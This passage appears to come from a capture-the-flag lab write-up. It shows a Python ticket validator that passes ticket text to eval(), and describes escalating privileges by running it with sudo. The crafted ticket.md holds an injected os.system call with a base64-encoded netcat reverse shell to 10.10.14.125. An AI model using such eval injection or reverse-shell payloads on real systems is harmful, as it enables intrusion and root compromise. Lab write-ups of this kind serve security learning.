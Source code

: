 ```python
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

Considering this script, I have written a `ticket.md` file so I could reach the `eval()` built-in function, which executes code and evaluates its results. After several attempts, noticed that eval wouldn't work with line breaks like `;` or `\n` inside the string. The solution was to create a comparison of two evaluations, being the first part the requirements so I could reach the `code_line` and the second, joint by the `and` operator (but would work with any other logical operator available), containing another comparison with one of the operators an instruction to spawn a reverse shell

```bash
# Victim Machine
development@bountyhunter:/dev/shm$ cat ticket.md
# Skytrain Inc
## Ticket to John Doe
__Ticket Code:__
**11+90 == 101 and __import__('os').system('echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMTI1IDQ0NDMgPi90bXAvZg== | base64 -d | bash -') == True

development@bountyhunter:/dev/shm$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/dev/shm/ticket.md
Destination: John Doe
```
